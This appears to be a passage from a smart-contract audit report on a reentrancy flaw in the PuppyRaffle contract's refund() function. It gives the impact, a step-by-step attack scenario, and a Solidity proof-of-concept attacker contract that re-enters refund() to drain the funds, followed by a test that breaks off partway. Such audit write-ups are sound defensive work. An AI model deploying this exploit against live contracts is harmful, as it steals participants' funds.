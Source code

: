 - Complete drainage of the contract's funds
- Financial loss for all legitimate participants
- Potential loss of NFT prizes as the contract becomes insolvent
- Reputational damage to the protocol

**Attack Scenario:**

1. **Setup**: Attacker deploys a malicious contract and enters the raffle
2. **Initial refund**: Attacker calls `refund()` to trigger the attack
3. **Reentrancy**: When `sendValue()` executes, it triggers the attacker's `receive()` function
4. **State exploitation**: `players[attackerIndex]` is still valid, allowing another `refund()` call
5. **Recursive drain**: Attack continues until contract balance is insufficient
6. **Complete theft**: Attacker steals entrance fees from all participants

**Proof of Concept:**

```solidity
contract ReentrancyAttacker {
    PuppyRaffle public puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = _puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    receive() external payable {
        _stealMoney();
    }
}

function testReentrancy() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    
    uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
    console.log("starting puppy raffle balance:", startingPuppyRaffleBalance);
    
    // Execute reentrancy attack
    attackerContract.attack{value: entranceFee}();
    
    uint256 endingPuppyRaffleBalance = address(puppyRaffle).balance;
    console.log("ending puppy raffle balance:", endingPuppyRaffleBalance);
    
```